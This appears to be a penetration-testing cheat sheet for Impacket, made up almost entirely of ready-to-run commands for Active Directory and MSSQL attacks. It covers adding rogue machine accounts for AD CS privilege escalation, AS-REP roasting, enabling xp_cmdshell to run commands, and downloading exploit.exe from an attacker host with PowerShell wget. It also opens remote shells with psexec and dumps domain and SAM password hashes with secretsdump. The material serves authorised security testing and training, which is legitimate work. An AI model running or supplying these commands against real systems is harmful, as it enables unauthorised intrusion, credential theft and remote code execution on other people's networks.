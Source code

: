 ```yaml
---
title: Impacket
desc: Provides low level access to the packets. It also used to connect Microsoft SQL.
tags: [ActiveDirectory, ActiveRecon, MSSQL, Windows]
alts: [Bloodhound, CrackMapExec, Kerbrute, Mimikatz]
website:
render_with_liquid: false
---
```


## addcomputer

Add your computer to the domain and set the password.  
It is usually used for AD CS (Active Directory Certificate Services) Privilege Escalation.

```sh
python3 ./impacket/examples/addcomputer.py '<domain-name>/username:password' -method LDAPS -computer-name 'PC-NAME' -computer-pass 'MyPcPassword'

python3 ./impacket/examples/addcomputer.py '<domain-name>/username:password@<hostname>' -method LDAPS -computer-name 'PC-NAME' -computer-pass 'MyPcPassword'
```

<br />

## impacket-netview

```sh
impacket-netview -h
```

<br />

## impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
# Get password (e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip 10.0.0.1 -format hashcat example.local/admin
```

<br />

## impacket-mssqlclient

Establish an authenticated connection to Microsoft SQL.

```sh
# Connect
impacket-mssqlclient -port 1433 DOMAIN/username:password@10.0.0.1
impacket-mssqlclient -port 1433 DOMAIN/username:password@10.0.0.1 -windows-auth

# ------ Logged in ---------------------------------------------

SQL> enable_xp_cmdshell
SQL> disable_xp_cmdshell

# Execute commands
SQL> xp_cmdshell whoami
SQL> xp_cmdshell dir
SQL> xp_cmdshell .\exploit.exe
SQL> xp_cmdshell "powershell.exe pwd"
# Get files from external server
SQL> xp_cmdshell "powershell.exe wget -UseBasicParsing http://10.0.0.1:8000/exploit.exe -OutFile c:\\Users\Public\exploit.exe"
```

<br />

## impacket-psexec

Interactive shell on Windows host.

```sh
impacket-psexec username:password@10.0.0.1
```

<br />

## impacket-rpcdump

```sh
impacket-rpcdump -port 135 10.0.0.1
```

<br />

## impacket-secretsdump

Gets all password hashes.

```sh
# Basic
impacket-secretsdump example.local/username:password@10.0.0.1

# Only NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc example.local/username:password@10.0.0.1

# Only NTLM hashes
impacket-secretsdump -just-dc-ntlm example.local/username:password@10.0.0.1

# SAM and SYSTEM
impacket-secretsdump -sam sam.bak -system system.bak local
```